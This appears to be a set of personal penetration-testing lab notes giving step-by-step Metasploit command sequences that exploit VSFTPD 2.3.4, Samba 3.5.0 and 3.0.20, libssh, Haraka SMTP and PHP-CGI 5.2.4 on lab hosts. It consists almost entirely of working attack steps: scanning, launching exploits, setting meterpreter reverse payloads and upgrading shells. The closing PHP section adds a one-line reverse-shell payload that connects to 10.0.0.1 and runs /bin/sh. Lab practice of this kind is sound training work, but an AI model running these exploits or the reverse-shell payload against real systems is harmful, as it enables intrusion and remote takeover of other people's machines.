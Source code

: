 ## FTP
- Exploiting VSFTPD v2.3.4
	```
	ip a
	db_nmap -sS -sV -O 192.5.189.3
	service
	services
	analyze
	setg RHOSTS 192.5.189.3
	analyze
	search vsftpd
	use 1
	search vsftpd
	use exploit/unix/ftp/vsftpd_234_backdoor 
	show options 
	run
	search shell_to_meterpreter
	use post/multi/manage/shell_to_meterpreter 
	show options 
	set LhOST 192.5.189.2
	set session 1
	run
	sessions 2
	sysinfo
	whoami
	```

## Samba
- Exploiting Samba v3.5.0
	```
	ip a
	db_nmap -sS -sV -O 192.48.47.3
	services 
	analyze
	search type:exploit samba
	use exploit/linux/samba/is_known_pipename 
	show options
	setg rhosts 192.48.47.3
	run
	search shell_to_meterpreter
	use post/multi/manage/shell_to_meterpreter 
	set lhost 192.48.47.2
	set session 1
	run
	sessions 2
	sysinfo
	```

- Exploiting Samba v3.0.20
	```
	search samba 3.0.20
	use exploit/multi/samba/usermap_script
	show options
	run
	```

## SSH
- Exploiting libssh v0.6.0 - v0.8.0
	```
	db_nmap -sS -sV -O 192.155.188.3
	setg rhosts 192.155.188.3
	services 
	search libssh
	use auxiliary/scanner/ssh/libssh_auth_bypass 
	show options
	set spawn_pty true 
	run
	sessions 1
	```

## SMTP
- Exploiting Haraka v2.8.9
	```
	db_nmap -sS -sV -O 192.199.182.3
	services 
	analyze 
	search type:exploit haraka
	use exploit/linux/smtp/haraka 
	show options 
	set email_to root@attackdefense.test
	set rhost 192.199.182.3
	set payload linux/x64/meterpreter_reverse_http
	set srvport 9898
	set lhost eth1
	run
	whoami
	sysinfo
	```

## PHP
- Find the version of PHP at `<target_ip>/phpinfo`

### PHP v5.2.4
- For exploiting PHP v5.2.4 start #tools/exploit/searchsploit and look for `php cgi`
- Select `18836.py`
- Change the code to be executed:
	```
	pwn_code = """<?php $sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&4 >&4 2>&4");?>"""
	```